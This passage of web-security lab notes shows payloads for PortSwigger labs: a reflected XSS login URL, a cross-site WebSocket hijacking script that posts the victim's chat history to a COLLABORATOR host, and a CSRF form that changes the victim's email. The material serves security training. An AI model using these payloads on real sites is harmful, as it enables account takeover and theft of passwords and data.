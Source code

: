 cms reflected xss samesite bypass

```
https://cms-TARGET.net/login?username=%3Cscript%3Ealert%28%27reflectXSS%27%29%3C%2Fscript%3E&password=pass
```

> Bypass the SameSite restrictions, by URL encode the entire script below and using it as the input to the CDN subdomain at `cms-` username login, hosted on exploit server.

```
<script>
    var ws = new WebSocket('wss://TARGE.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://COLLABORATOR.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

> Host the following on exploit server and deliver to victim, once the collaborator receive the victim chat history with their password, result in account takeover.

```
<script>
    document.location = "https://cms-TARGET.net/login?username=ENCODED-POC-CSWSH-SCRIPT&password=Peanut2019";
</script>
```

> The chat history contain password for the victim.

[PortSwigger Lab: SameSite Strict bypass via sibling domain](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

#### SameSite Lax bypass

> Observe if you visit `/social-login`, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction., and in proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.

> Bypass the popup blocker, to induce the victim to click on the page and only opens the popup once the victim has clicked, with the following JavaScript. The exploit JavaScript code first refreshes the victim's session by forcing their browser to visit `/social-login`, then submits the email change request after a short pause. Deliver the exploit to the victim.

```
<form method="POST" action="https://TARGET.net/my-account/change-email">
    <input type="hidden" name="email" value="administrator@exploit-server.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://TARGET.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
